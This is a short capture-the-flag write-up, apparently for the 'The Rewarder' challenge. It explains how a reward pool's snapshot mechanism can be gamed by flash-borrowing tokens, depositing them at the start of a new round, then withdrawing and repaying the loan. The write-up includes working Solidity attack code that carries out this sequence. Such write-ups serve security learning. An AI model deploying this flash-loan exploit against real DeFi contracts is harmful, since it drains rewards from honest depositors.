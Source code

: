 # The Rewarder

1. We can see in this challenge, `TheRewarderPool.sol` use `AccountingToken.sol` which implement `ERC20Snapshot` to basically snapshot the balance of users deposit at given interval time. But this can be abused, user with high amount of token can deposit at time which triger new round and get unproportionally high amount of reward.
2. To solve this challenge, we can see in `TheRewarderPool.sol` have `deposit` function which call `distributeRewards`. As mentioned before, we can call this function right after the new round time with high amount of token, to get high amount of token, we can use `FlashLoanerPool.sol` and do the attacking call in `receiveFlashLoan` callback.

```solidity
    function attack(uint256 amount) external {
        flashLoanPool.flashLoan(amount);
    }

    function receiveFlashLoan(uint256 amount) external {
        liquidityToken.increaseAllowance(address(rewardPool), amount);
        rewardPool.deposit(amount);
        rewardPool.withdraw(amount);
        liquidityToken.transfer(address(flashLoanPool), amount);
        rewardToken.transfer(owner, rewardToken.balanceOf(address(this)));
    }
```
